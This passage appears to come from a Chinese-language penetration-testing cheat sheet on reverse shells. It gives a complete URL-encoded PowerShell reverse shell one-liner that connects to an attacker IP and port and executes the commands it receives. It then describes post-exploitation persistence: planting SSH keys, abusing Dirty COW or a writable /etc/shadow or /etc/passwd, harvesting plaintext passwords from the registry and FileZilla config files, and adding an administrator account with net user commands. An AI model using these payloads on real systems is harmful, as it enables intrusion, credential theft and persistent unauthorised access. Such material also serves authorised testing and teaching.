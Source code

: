 ```Bash
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<span style="color: #C7D5F6"><IP></span>%27%2C<span style="color: #C7D5F6"><PORT></span>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```





NEXT TEPS

shell通常是不稳定且无法交互的，即使更容易稳定的unix风格shell也并不是一个完美的选择，理想的情况是获得目标的账户访问权。

* 将SSH密钥存储在`/home/<user>/.ssh`中
* 有的漏洞还允许添加账户
* 利用[Dirty COW (CVE-2016-5195)](https://dirtycow.ninja/)、可写的 `/etc/shadow`或者`/etc/passwd`文件可以快速使用SSH访问这台机器，前提：SSH已开启

在Windows上，选项通常更有限。有时可以在注册表中找到运行服务的密码。例如，VNC服务器经常以明文形式在注册表中保存密码。FileZilla FTP服务器的某些版本也会将凭据保存在XML文件中 `C:\Program Files\FileZilla Server\FileZilla Server.xml`

理想情况下，在Windows上，你应该以系统用户身份获得一个shell，或者以具有高权限的管理员帐户运行。在这种情况下，可以简单地将自己的帐户(在administrators组中)添加到机器上，然后通过RDP、telnet、winexe、psexec、WinRM或任何其他方法登录，这取决于运行在机器上的服务。

语法如下：


```Shell
net user <username> <password> /add
net localgroup administrators <username> /add
```





















# 参考文档

[反弹 Shell，看这一篇就够了 - 先知社区](https://xz.aliyun.com/t/9488?time__1311=n4%2BxnD0Du0YGq0KYGNnmDUxYqxxRxRhDbq4AIdx#toc-5)

[SOCAT 简介](https://brieflyx.me/2015/linux-tools/socat-introduction/)



[下载.htm](assets/H2rib5T7Lon0snxLylHcKZuwnKF_下载.htm)





